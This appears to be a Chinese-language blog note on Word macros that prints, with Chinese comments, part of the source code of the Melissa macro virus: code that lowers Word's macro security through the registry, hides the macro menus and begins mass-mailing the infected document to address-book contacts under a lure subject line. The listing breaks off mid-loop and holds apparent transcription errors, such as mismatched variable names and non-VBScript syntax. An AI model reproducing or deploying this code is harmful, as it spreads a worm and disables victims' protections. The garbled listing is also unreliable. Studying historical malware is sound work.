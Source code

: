 
Word宏，本质上是一个批量处理程序命令，微软用其提高工作效率

宏其实就是一段vbscript代码，当word运行时自动运行宏代码，经过实验，word宏在删除带有宏的word文件之后或者禁用宏功能之后，仍然可以在新建word时自动运行宏，更别说是一个病毒宏的传播了，其自动运行，难以删除的特性，使得Melissa病毒有着重大影响力

> 现在的word可以在：`审阅 ➡ 宏`中创建新的宏
>
> 在`文件 ➡ 信任中心 ➡ 信任中心设置 ➡ 宏设置 `中可以打开是否启用宏



病毒源码如下：

```vbscript

'Part1
'
Private Sub Document_Open()
  On Error Resume Next
    '读取Windows Registry，即注册表
    '如果是word2000就把Security设置为最低
    '若不是则把word的转化确认、病毒保护、模板存储确认设置成off
    '然后把菜单项Tools->Macro Disable ,这样达到隐藏代码的效果
  If System.PrivateProfileString("",
       "HKEY_CURRENT_USER\Software\Microsoft\Office\9.0\Word\Security",
       "Level") <> "" Then
    CommandBars("Macro").Controls("Security...").Enabled = False
    System.PrivateProfileString("",
       "HKEY_CURRENT_USER\Software\Microsoft\Office\9.0\Word\Security",
       "Level") = 1&
  Else
    CommandBars("Tools").Controls("Macro").Enabled = False
    Options.ConfirmConversions = (1 - 1): Options.VirusProtection = (1 - 1):
    Options.SaveNormalPrompt = (1 - 1)
  End If


'Part2
    'Melissa病毒Payload主体
    '先判断是否已经感染
    '感染的标记在注册表里
    '若无感染则写一个主题为Important Message From $name Here is that document you asked for ... don't show anyone else ;-)的邮件，以及附有病毒word(即本文件)发送到地址簿上的前50个人
    '然后再注册表中标记已感染
Dim UngaDasOutlook, DasMapiName, BreakUmOffASlice
Set UngaDasOutlook = CreateObject("Outlook.Application")
Set DasMapiName = UngaDasOutlook.GetNameSpace("MAPI")
If System.PrivateProfileString("",
    "HKEY_CURRENT_USER\Software\Microsoft\Office\", "Melissa?") <>
    "... by Kwyjibo" Then
  If UngaDasOutlook = "Inlook" Then
    DasMapName.Logon "profile", "password"
    For y = 1 To DasMapName.AddressLists.Count
        Set AddyBook = DasMapiName.AddressLists(y)
        Set BreakOffASlice = UngaDasOutlook.CreateItem(0)
        For oo = 1 To AddyBook.AddressEntries.Count
            Peep = AddyBook.AddressEntries(x)
            BreakOffASlice.Recipients.Add Peep
            x++
            If x < 50 Then oo = AddyBook.AddressEntries.Count
         Next oo
         BreakOffASlice.Subject = "Important Message From " &
              Application.UserName
         BreakUmOffASlice.Body =
            "Here is that document you asked for ... don't show anyone else ;-)"

```